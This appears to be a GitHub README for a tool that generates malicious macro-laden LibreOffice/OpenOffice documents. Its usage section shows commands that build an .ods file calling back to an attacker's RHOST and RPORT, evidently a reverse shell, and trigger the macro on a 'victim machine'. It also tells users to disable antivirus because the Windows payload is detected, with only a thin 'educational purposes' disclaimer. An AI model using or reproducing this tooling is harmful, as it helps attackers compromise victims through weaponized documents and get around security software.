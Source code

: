 # Malicious Macro Generator LibreOffice/OpenOffice
`.odt` Writer Document  
`.ods` Calc Spreadsheet    
`.odb` Base Database  
`.odp` Impress Presentation  
`.odg` Draw Drawing  

# Execute Macro inside Generated Document

> Python Package: uno (Universal Network Objects) is typically associated with macro programming and automation tasks for LibreOffice or OpenOffice. It is an API (Application Programming Interface) provided by LibreOffice and OpenOffice that allows the use of various programming languages, including Python, to control the functionalities of these office suites.
>
> If you want to use the uno library in Python, you generally do not need to install it separately, as it should come bundled with the installation of LibreOffice or OpenOffice. However, you must ensure that the version of Python you are using is compatible with the version of Python that comes with LibreOffice or OpenOffice.

Usage:

```console
# Local mahine: generate file.ods
$ python3 mmg-ods.py linux $RHOST $RPORT

# Victim machine:
$ export file_path=./file.ods; export library_name=Standard; export module_name=Module1; export macro_name=Payday
$ python3 exp.py --file $file_path -H localhost -P 2002 \
                 --library $library_name --module $module_name --macro $macro_name
```

![usage](./resource/usage.png)

### Note:

This script was created for educational purposes only.  
Macros should be enabled in LibreOffice/OpenOffice.  
Windows payload is already detected, turn off your AV if you experiment some detection trouble.  
